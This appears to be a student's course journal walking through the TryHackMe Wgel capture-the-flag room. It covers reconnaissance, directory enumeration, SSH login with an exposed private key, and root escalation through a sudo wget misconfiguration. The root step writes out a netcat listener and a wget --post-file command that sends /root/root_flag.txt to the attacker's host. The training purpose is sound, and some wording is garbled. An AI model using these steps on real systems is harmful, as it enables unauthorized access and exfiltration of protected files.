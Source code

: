 ```yaml
---
Title: Journal 8
categories: [SWS101, CTF Journal]
tags: [SWS101]
---
```


### Topic : Wgel - TryHackMe Walkthrough 

#### Introduction:

In this journal post, I will be detailing the process and actions that were taken to acquire the final user and root flags within the Wgel CTF room in TryHackMe. This particular room’s goal is to familiarize oneself with reconnaissance, web qualifications, and ascending privilege practices to perform unauthorized access and data acquisition illicitly.

#### Walkthrough:

- Reconnaissance & User Flag:

I began by running an Nmap scan on the target machine, which revealed two open ports: 22 the secure simple connection, S and 80 the standard hypertext transfer protocol. When I typed the given IP address on my browser, a page with the title ‘Welcome to Apache2 Ubuntu’ popped up. 

If I had examined the source code, I would have found a comment saying there may be something like “ Jessie”.
After that, I used gobuster for the directory associated with the website and found a directory named “/sitemap”. Subcategories can be listed by running /sitemap // and there is a “hidden” directory named “. ssh” that contains the RSA private key.

To use the private key for authentication, I copied it to my attacker machine and the set appropriate permissions by using the command chmod 600 fileName id_rsa. I then was able to shh into the machine using the discovered username as ‘jessie’ and the obtained RSA key.
When I was able to login, I searched for the user flag using the command locate and luckily, I was able to obtain it.

- Root Flag:

To escalate privileges, I ran the command "sudo -l" and discovered that I could run "/usr/bin/wget" as the root user. This presented an opportunity for privilege escalation.

Referring to GTFOBins (https://gtfobins.github.io/), I searched for the "wget" binary and found a suitable exploit. The exploit required starting a netcat listener on my attacker machine and then executing "wget" with sudo privileges on the victim machine to post a file to the listener.

On my attacker machine, I initiated a netcat listener using the command "nc -lvnp 9001". Then, on the victim machine (logged in as the "jessie" user), I ran the following command:
sudo /usr/bin/wget --post-file=/root/root_flag.txt http://<your TryHackMe IP address>:9001
By specifying the root flag file as the post-file parameter and directing it to my attacker machine's IP address and listening port, I successfully retrieved the root flag.

#### Conclusion:

In conclusion, the Wgel CTF room offered a great chance to practice a variety of hacking methods, such as privilege escalation, web enumeration, and reconnaissance. Through the discovery of a hidden directory, the acquisition of an SSH private key, and the utilization of a sudo misconfiguration with the "wget" binary, I managed to get root and user flags without authorization on the system.
This experience made it even more clear how crucial it is to properly examine online apps, look for configuration errors, and use the resources and tools that are readily available—like GTFOBins—in order to find and exploit vulnerabilities.

All things considered, finishing the Wgel CTF room helped me apply my knowledge in a real-world setting and deepened my comprehension of the hacking process. It acts as a reminder of the ongoing requirement for watchfulness and appropriate security setups in order to thwart unwanted access and safeguard confidential data.

